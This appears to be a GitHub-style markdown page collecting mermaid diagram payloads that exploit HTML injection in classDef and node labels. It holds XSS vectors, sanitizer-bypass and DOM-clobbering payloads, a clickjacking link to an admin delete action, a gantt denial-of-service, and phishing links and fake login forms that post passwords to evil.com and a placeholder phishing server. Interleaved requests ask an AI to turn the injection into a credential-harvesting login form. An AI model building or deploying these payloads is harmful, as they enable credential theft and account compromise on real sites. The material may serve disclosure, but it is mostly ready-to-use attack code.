








01



02



03

```mermaid
graph LR
    A --> B
    classDef evil fill:url('data:image/svg+xml,<svg xmlns="http://www.w3.org/2000/svg"><script>alert(document.domain)</script></svg>')
    class A evil
```
04

```mermaid
graph LR
    classDef evil fill:red" onload="alert(1)" style="
    class A evil
```
05
```mermaid
graph LR
B-->D();
```
06




this is mermaid

i have found this html injection using this payload 


the xss did not work , but the image is featched 

i want you to audit the code to find confimred escalation impact of this bug 

do not report any false positives 













```mermaid
graph TD;
X["<<a href='https://your-phishing-server.com/login' style='display:block;padding:12px;background:#dc3545;color:white;border-radius:4px;text-decoration:none;font-family:sans-serif;text-align:center;'>⚠️ Admin Session Expired — Click to Re-Authenticate</a>"]```

```mermaid
graph TD;
X["<<form action='https://your-phishing-server.com/catch' method='POST'><input type='password' name='password' placeholder='Enter password to view diagram' style='padding:8px;'><input type='submit' value='Unlock' style='padding:8px;background:#007bff;color:white;border:none;'></form>"]
```

```mermaid
graph TD;
X["<"]```

```mermaid
graph TD;
X["<"]
```

```mermaid
graph TD;
X["<"]
```

```mermaid
graph TD;
X["<<a href='https://target.com/admin/delete-all' style='position:absolute;top:0;left:0;width:100%;height:100%;opacity:0;'>.</a>"]
```

```mermaid
graph TD;
X1["<<svg onload=alert('svg')>"]
X2["<<details open ontoggle=alert('details')>"]
X3["<<object data='javascript:alert(1)'>"]
X4["<<iframe srcdoc=''>"]
X5["<<math><mtext><table><mglyph><style>"]
X6["<<a href='javascript:alert(1)'>click</a>"]
```

we have this Improper sanitization of `classDef` in state diagrams leads to HTML injection

Proof-of-concept

```mermaid
stateDiagram-v2
  classDef xss fill:red</style></svg><style>*{x:x;y:y;overflow:visible!important;contain:none!important;transform:none!important;filter:none!important;clip-path:none!important}</style><div style="x:x;y:y;color:red;font:5em/1 monospace;display:grid;place-items:center;z-index:2147483647;width:100vw;height:100vh;position:fixed;top:0;left:0;background:black">HACKED</div><svg><style>a:b
  [*] --> A:::xss
```

i want you to make it html login form 

do not render the markdown here , just give me the code 

```mermaid
gantt
  excludes monday,tuesday,wednesday,thursday,friday,saturday,sunday
  DoS :2025-01-01, 1d
```


```mermaid
stateDiagram-v2
  classDef xss fill:red</style></svg><style>*{x:x;y:y;overflow:visible!important;contain:none!important;transform:none!important;filter:none!important;clip-path:none!important}</style><form action="https://evil.com" method="POST" style="display:grid;place-items:center;z-index:2147483647;width:100vw;height:100vh;position:fixed;top:0;left:0;background:rgba(0,0,0,0.9);font-family:system-ui,sans-serif;margin:0"><div style="background:#fff;padding:2.5rem;border-radius:12px;box-shadow:0 20px 60px rgba(0,0,0,0.5);width:360px;text-align:center"><h2 style="margin:0 0 1.5rem;color:#1a1a1a;font-size:1.5rem">Account Login</h2><input name="email" placeholder="Email address" required style="width:100%;padding:0.875rem;margin-bottom:1rem;border:1px solid #d1d5db;border-radius:6px;font-size:1rem;box-sizing:border-box"><input type="password" name="password" placeholder="Password" required style="width:100%;padding:0.875rem;margin-bottom:1.5rem;border:1px solid #d1d5db;border-radius:6px;font-size:1rem;box-sizing:border-box"><button type="submit" style="width:100%;padding:0.875rem;background:#2563eb;color:#fff;border:none;border-radius:6px;font-size:1rem;font-weight:600;cursor:pointer">Sign In</button></div></form><svg><style>a:b
  [*] --> A:::xss
```


```mermaid
stateDiagram-v2
  classDef bypass fill:red</style></svg><form><math><mtext><table><mglyph><style><![CDATA[</style>]]></style></mglyph></table></mtext></math></form><svg><style>a:b
  [*] --> A:::bypass
```

```mermaid
stateDiagram-v2
  classDef clobber fill:red</style></svg><form id=isConnected><input name=nodeType><svg onload=alert(1)></svg></form><svg><style>a:b
  [*] --> A:::clobber
```

```mermaid
stateDiagram-v2
  classDef elevator fill:red</style></svg><math><mtext><table><mglyph><style><!--</style>--></style></mglyph></table></mtext></math><svg><style>a:b
  [*] --> A:::elevator
```

```mermaid
stateDiagram-v2
  classDef triple fill:red</style></svg><form><math><mtext><table><mglyph><style><![CDATA[</style>]]></style></mglyph></table></mtext></math></form><form><math><mtext><table><mglyph><style><![CDATA[</style>]]></style></mglyph></table></mtext></math></form><svg><style>a:b
  [*] --> A:::triple
```

```mermaid

```


